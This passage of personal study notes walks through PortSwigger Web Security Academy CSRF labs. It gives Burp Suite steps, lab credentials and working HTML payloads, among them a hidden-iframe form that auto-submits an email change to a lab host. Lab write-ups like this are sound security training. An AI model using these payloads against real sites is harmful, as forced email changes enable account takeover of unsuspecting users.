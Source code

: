 - Delivering trough a python server (https://localserver:8000/path/to/file)
```
python3 -m http.server <port-number>
```

- Accessing the above link will redirect the target to the 'desired' website meanwhile the reset email will be changed per our html script(payload)

## **3. CSRF where token validation depends on token being present**
This lab's email change functionality is vulnerable to CSRF. 

1. Open Burp's browser and log in to your account. Submit the "Update email" form, and find the resulting request in your Proxy history.
2. Send the request to Burp Repeater and observe that if you change the value of the `csrf` parameter then the request is rejected.
3. Delete the `csrf` parameter entirely and observe that the request is now accepted.
4. If you're using [Burp Suite Professional](https://portswigger.net/burp/pro), right-click on the request, and from the context menu select Engagement tools / Generate CSRF PoC. Enable the option to include an auto-submit script and click "Regenerate".
    Alternatively, if you're using [Burp Suite Community Edition](https://portswigger.net/burp/communitydownload), use the following HTML template. You can get the request URL by right-clicking and selecting "Copy URL"
    `<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email"> <input type="hidden" name="$param1name" value="$param1value"> </form> <script> document.forms[0].submit(); </script>`
5. Go to the exploit server, paste your exploit HTML into the "Body" section, and click "Store".
6. To verify if the exploit will work, try it on yourself by clicking "View exploit" and checking the resulting HTTP request and response.
7. Change the email address in your exploit so that it doesn't match your own.
8. Store the exploit, then click "Deliver to victim" to solve the lab.


Vulnerable parameter - email change functionality
Goal - exploit CSRF to change email address
Creds - wiener:peter

In order for a CSRF attack to be possible:
- A relevant action: change a users email
- Cookie-based session handling: session cookie
- No unpredictable request parameters: csrf token **is not mandatory**

Testing CSRF Tokens:
1. Change the request method from POST to GET.
2.  Remove the CSRF token and see if application accepts request.

- removing csrf token and forwards the post request we observe that application accept the request so we can proceed further with the exploit which is a basic one (as first example - no defense due to lack of csrf token)

![[Pasted image 20240921183028.png]]
![[Pasted image 20240921183005.png]]

- HTML payload (form action="https://HOST/POST")
```
<html>
    <body>
        <h1>Hello World!</h1>
        <iframe style="display:none" name="csrf-iframe"></iframe>
        <form action="https://target-acc61fc61e3d7e1e800e3f9d001500fa.web-security-academy.net/my-account/change-email" method="POST" id="csrf-form" target="csrf-iframe">
        <input type="hidden" name="email" value="test5@test.ca">
        </form>

        <script>document.getElementById("csrf-form").submit()</script>
    </body>
```